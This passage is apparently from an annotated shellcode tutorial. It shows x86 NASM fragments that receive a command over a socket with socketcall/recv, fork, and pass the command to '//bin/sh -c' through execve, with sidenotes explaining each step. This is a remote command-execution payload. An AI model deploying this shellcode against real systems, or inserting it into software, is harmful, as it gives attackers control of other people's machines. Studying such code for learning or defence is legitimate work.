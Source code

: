 ```nasm
    mov ecx, esp

    ; invoke socketcall()
    int 0x80
```

{% sidenote Use `socketcall` to call `recv` and receive the command to be executed %}

```nasm
    cmp al, 0xff
    je Exit

    xor eax, eax
    mov al, 2
    int 0x80

    ; if the return value of fork() == 0, it means we're in the child process
    xor ebx, ebx
    cmp eax, ebx
    jne ReceiveData
```

{% sidenote After the `fork`, the *parent* process waits for data to be received, while the *child* process executes the command received just now %}

```nasm
ExecuteCommand:

    xor esi, esi
    push esi

    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp
```

{% sidenote String `//bin/sh` %}

```nasm
    mov eax, esi
    mov ax, 0x632d
    push eax

    mov eax, esp
```

{% sidenote String `-c` %}


```nasm
    push esi
    push ReceivedData
    push eax
    push ebx

    mov eax, esi
    mov al, 11
    mov ecx, esp

    push esi
    mov edx, esp

    int 0x80
```
